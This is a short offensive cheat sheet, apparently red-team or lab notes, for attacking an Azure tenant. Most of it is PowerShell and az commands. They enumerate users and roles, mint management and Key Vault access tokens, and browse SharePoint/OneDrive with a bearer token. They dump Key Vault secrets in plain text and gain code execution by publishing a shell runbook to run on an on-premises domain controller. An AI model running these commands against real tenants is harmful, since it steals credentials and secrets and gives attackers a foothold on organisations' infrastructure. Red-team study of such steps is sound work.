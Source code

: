 ```powershell
# Enumerate Users
az ad user list

# Find resources our user has access to
az resource list

# Check our roles
az role assignment list --al

# Generate access token for management and vault services
az account get-access-token --resource https://management.azure.com
az account get-access-token --resource https://vault.azure.net

# Describe custom roles 
az role definition list --custom-role-only
```

## Enumerate SharePoint
```powershell
# Enumerate Root folder
$accessToken = 'eyJ0eXAiOiJKV1Qi...[SNIP]...1bpJg3QtPS8MO2'

$URi = 'https://graph.microsoft.com/v1.0/me/drive/root/children' 
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{ 'Authorization' = "Bearer $accessToken" } }
(Invoke-RestMethod @RequestParams).value

# Enumerate a the MyPat sub-folder
$URi = 'https://graph.microsoft.com/v1.0/me/drive/root:/MyPAT:/children'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{ 'Authorization' = "Bearer $accessToken" } }
(Invoke-RestMethod @RequestParams).value
```

## Dump Secerets Vault
```powershell
Get-AzKeyVault | fl *

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault

Get-AzKeyVaultSecret -VaultName Paul-webapp-KeyVault  -Name paul-localkeys -AsPlainText | fl *
```

## Gaining RCE from RunBooks
```powershell
Import-AzAutomationRunbook -Name Wowieee -Path C:\tools\shell.ps1 -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Type PowerShell -Force -Verbose

Publish-AzAutomationRunbook -RunbookName Wowieee -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose 

Start-AzAutomationRunbook -RunbookName Wowieee -RunOn OnpremInternalDC -AutomationAccountName terminal-srv-runbook -ResourceGroupName Runbook-RG -Verbose
```
